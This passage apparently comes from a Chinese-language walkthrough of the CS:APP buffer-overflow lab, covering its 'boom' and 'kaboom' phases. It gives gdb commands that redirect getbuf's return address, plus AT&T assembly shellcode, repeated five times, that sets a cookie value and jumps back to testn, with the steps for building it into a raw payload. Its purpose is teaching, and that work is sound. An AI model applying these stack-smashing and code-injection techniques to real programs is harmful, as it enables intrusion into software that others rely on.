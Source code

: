 可以看到到调用 getbuf 为止共开辟了 0x14 字节的栈上空间，而在调用 getbuf 之后 ebp 指针压栈，此时存在 `$esp+0x18==$ebp`。

到此答案已经知晓了，只需要将 \$ebp 恢复至进入 getbuf 时 \$esp+0x18 即可（也即 leave 之后的 \$esp 值）。

```gdb
b *(getbuf+9)
c
printf "origin ret addr: %#lx\n", *(void**)($ebp+4)
printf "dest ret addr: %#lx\n", $eax
b *(getbuf+20)
c
x /3i $ebp-0x28
set $eax=$ebp-0x28
b *(getbuf+21)
set *(void**)$esp=$eax
c
```

> "origin ret addr: ..." 为 getbuf 原返回地址。

> 不管缓冲区地址变不变，上面这段 gdb 指令一定是可以 pass 的，毕竟拿的栈帧总是当前的栈帧而不是硬编码，下一个 kaboom 也是一样。

### phase 5 - kaboom

kaboom 启动需要加个 -n 参数，跟 boom 唯一的区别就是 test 换成了 testn，getbuf 换成了 getbufn。

抓关键来说，就是从一次 test 判断变成了 5 次 testn 判断，每次判断的逻辑不变。

简单观察下反汇编可以知道 getbufn 和 testn 都只在一个地方调用，所以 getbufn 返回 testn 的返回地址一定是固定的。

而一般情况下只要不整什么花活比如**栈上动态分配内存但是不释放**或者**内联汇编移动栈指针**，那 getbufn 在栈上开辟的缓冲区地址都是不会变的。

但是问题来了，它实际上是变动的！

若不考虑地址的变动问题，答案显而易见，把 phase 4 的攻击代码改改参数重复个 5 遍就行了。

由于 5 次 testn 调用相当于 5 次 getbufn 调用相当于 5 次读入，所以需要稍稍改改对应的代码。

编写仅供 gdb 调试用的 solve-kabomb.s 程序：

```assembly
.rept 5
    mov $0x7d97e567, %eax
    push $0x8048de5
    ret

    .byte 0x0a
.endr
```

> 以上代码不含栈帧恢复

前 3 条指令与 phase 4 逻辑一致，第四条 `db 0x0a` 定义了 1 字节值为 0x0a 的数据，即 '\n'，这被视为终止符结束一次 getbufn 输入。

> 使用的均为 AT&T 汇编，可以直接使用 gcc 或 as 进行编译。

编译指令：

```assembly
gcc -c solve-kabomb.s
objcopy -O binary -j .text solve-kabomb.o solve-kabomb.bin
```
